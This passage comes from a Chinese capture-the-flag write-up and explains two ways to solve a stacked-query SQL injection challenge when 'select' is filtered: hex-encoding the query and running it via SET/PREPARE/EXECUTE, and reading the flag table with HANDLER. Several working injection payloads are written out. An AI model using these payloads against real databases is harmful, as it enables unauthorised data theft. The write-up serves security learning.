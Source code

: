 成功回显flag：<br />![image.png](https://img-blog.csdnimg.cn/img_convert/8122d53a32c6179d396ce793725a8a9c.png)<br />注意没有回显flag，就类似于你更新了个东西但是没刷新，重新在文本框里面输入1提交即可回显flag。
<a name="z4q8F"></a>
#### 第二种解法 编码逃逸 绕过滤
由于select被过滤，考虑使用编码进行绕过<br />使用select查询就很简单了<br />构造payload<br />`select *from where `1919810931114514``（注意这里使用反引号把这个数字包括住，md编辑器打不上去） <br />*号查询数据表里面的全部内容，这就是爆出flag的原理<br />进行16进制编码加密<br />`73656c656374202a2066726f6d206020313931393831303933313131343531342060`<br />最终payload：<br />`1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#`
> - prepare…from…是预处理语句，会进行编码转换。
> - execute用来执行由SQLPrepare创建的SQL语句。
> - SELECT可以在一条语句里对多个变量同时赋值,而SET只能一次对一个变量赋值。
> - 0x就是把后面的编码格式转换成16进制编码格式
> - 那么总体理解就是，使用SET方法给变量a赋值，给a变量赋的值就是select查询1919810931114514表的所有内容语句编码后的值，execsql方法执行来自a变量的值，prepare...from方法将执行后的编码变换成字符串格式，execute方法调用并执行execsql方法。
参考：https://blog.csdn.net/qq_44657899/article/details/10323914

回显flag：<br />![image.png](https://img-blog.csdnimg.cn/img_convert/d9511654ed16ddd5152c6598b5fecbde.png)
<a name="E2zV0"></a>
#### 第三种解法 handler代替select
select命令被过滤了怎么办？我们还可以用handler命令进行查看，handler命令可以一行一行的显示数据表中的内容。<br />构造payload：<br />`1'; handler `1919810931114514` open as `a`; handler `a` read next;#`
> handler代替select，以一行一行显示内容
> open打开表
> as更改表的别名为a
> read next读取数据文件内的数据次数

上传payload，回显flag：<br />![image.png](https://img-blog.csdnimg.cn/img_convert/1aa5220a282ceac998065c80dc38af21.png)
